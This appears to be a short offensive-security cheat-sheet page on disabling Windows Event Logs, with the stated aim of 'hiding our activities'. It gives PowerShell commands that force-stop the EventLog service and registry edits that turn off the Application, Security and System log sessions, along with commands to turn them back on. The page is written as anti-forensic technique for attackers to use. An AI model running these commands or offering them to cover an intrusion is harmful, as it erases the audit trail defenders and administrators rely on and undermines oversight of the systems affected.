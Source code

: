 # Disable Event Logs

We may disable Windows Event Logs for hiding our activities. There are several ways to do that.

## Stop-Service

```powershell
Stop-Service -Name EventLog -Force
```

To restart it, use the `Start-Service` cmdlet:

```powershell
Start-Service -Name EventLog
```

## Registry

The following commands disable each Event Log (Application, Security, System). We need to reboot the machine to apply these settings.

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Application /v Start /t REG_DWORD /d 0 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Security /v Start /t REG_DWORD /d 0 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-System /v Start /t REG_DWORD /d 0 /f
```

To restart them, set `1` to the values:

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Application /v Start /t REG_DWORD /d 1 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Security /v Start /t REG_DWORD /d 1 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-System /v Start /t REG_DWORD /d 1 /f
```

